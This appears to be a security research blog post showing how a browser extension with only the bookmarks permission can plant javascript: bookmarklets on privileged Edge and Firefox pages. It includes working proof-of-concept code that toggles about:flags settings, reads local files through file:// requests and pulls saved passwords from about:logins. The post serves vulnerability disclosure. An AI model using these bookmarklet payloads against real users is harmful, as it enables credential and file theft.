







# That evil bookmark in your browser 

Sometime back, I decided to look at bookmarks API available for browser extensions. This API sounds interesting to me because it allows you to play with user bookmarks using browser extensions.

If you want to know how extensions and permissions work please consider reading the first part of my previous blogpost https://payatu.com/blog/Nikhil-Mittal/microsoft-edge-extensions-host-permission-bypass-cve-2019-0678

to work with `bookmark API` a browser extension needs `bookmark` permission written in the manifest file

Let's create a manifest file that has only `bookmark` permission which means the extension will only be able to create, delete and update bookmark nothing else like executing javascript codes.

> manifest.json
```
{
  "name": "Evil Edge Extension",
  "author": "@C0d3G33k",
  "description": "This Extension achive evil things!",
  "version": "1.0",
  "icons": {
    "25": "images/color-changer25.png",
    "48": "images/color-changer48.png"
  },
  "permissions": [
    "bookmarks"
  ],
  "browser_action": {
    "default_icon": {
      "20": "images/color-changer20.png",
      "40": "images/color-changer40.png"
    },
    "default_title": "Evil Extension",
    "default_popup": "popup.html"
  },
  "content_scripts": [{
    "matches": [
        "<all_urls>"
    ],
    "js": ["js/content.js"],
    "run_at": "document_end"
}],
  "background": {
    "scripts": ["/js/background.js"],
    "persistent": true
  }
}
```
Further let's create a default popup file as defined in manigest file

> popup.html

```
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" type="text/css" href="css/styles.css" />
  </head>
  <body>
    
    <p>Evil Extension</p>
    <input id="b1" type="button" value="Open" />
    <input id="b2" type="button" value="Execute" />
    <script src="js/popup.js"></script>
  </body>
</html>
```

Let's again define JS file and create a simple bookmark in the browser

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');


open.onclick = function() {
  browser.tabs.update    ({
      url: "https://www.google.com/"
  });
};

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Google!",
      url: "https://www.google.com"
  });

};

```



Now the interesting thing here is most of the browsers are allowed to create `bookmarklets` using browser extensions

A `bookmarklet` is a bookmark stored in a web browser that contains JavaScript commands, the main purpose of `bookmarklets` is always to add extra features to the browser

for example a simple alert to get the first URL' from current page
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Display first link!",
      url: "javascript:alert(document.getElementsByTagName('a')[0].href);"
  });

};
```


Browser vendors are sweet enough to provide so many features, but what could go wrong with this implementation? 

Do you remember of privileged pages in browsers which contain so many sensitive pieces of information and settings? which should be protected from javascript code execution

As I mentioned in my previous post if you try directly load `about:flags` in edge and try to execute bookmarklets it would not work.



But we have other ways to load `about:flags` using `res://` URI's like `res://edgehtml.dll/flags.htm`. So let's modify our code and try again

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update    ({
      url: "res://edgehtml.dll/flags.htm"
  });
};

// to create bookmark

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(window.location.href);"
  });

};

```


well, that works fine for us! and it creates another elevation of privilege vulnerability in the edge. and hence we can change settings in `about:flags` like 

### Enabling/Disabling Adobe flash player
```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update    ({
      url: "res://edgehtml.dll/flags.htm"
  });
};

// to toggle adobe flash player flag

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:document.getElementById('BchostLocalhostLoopback').click();"
  });

};

```


### Stealing any local files on the system

Since edge does not enforce SOP for file URI's so if have opened any local files, then the evil bookmark can steal any files from the system.
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!!!!",
      url: "javascript:let xhr = new XMLHttpRequest();xhr.open('GET','file:///C:/Users/reach/Desktop/test.txt');xhr.send();setTimeout('alert(xhr.response)',3000)"
  });
 
};
```

Next, let's check other browsers as well
In firefox, we are allowed to execute bookmarklets in reference to the following pages 
```
about:certificate
about:compat
about:library
about:logins
about:home
about:privatebrowsing
about:protections
about:studies
about:welcome
```

### Stealing user credentials in firefox 

In firefox `about:logins` contain all the saved passwords, since we can execute javascript code reference to it, we can easily still all the saved logins, Let's modify the code and check

```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(document.all[30]._passwordInput.value)"
  });

};
```



### Changing other extensions settings

In firefox we can even change settings related to other installed extensions, Can you imagine the situation when one extension in the browser can disable features of another one. 



As per my test cases, chrome is safe against this vulnerability since it does not allows any bookmarklets on privileged pages. 

Bookmarks are also gettings synced to other connected devices which belongs to the same account, which is again another possible source of the attack. 
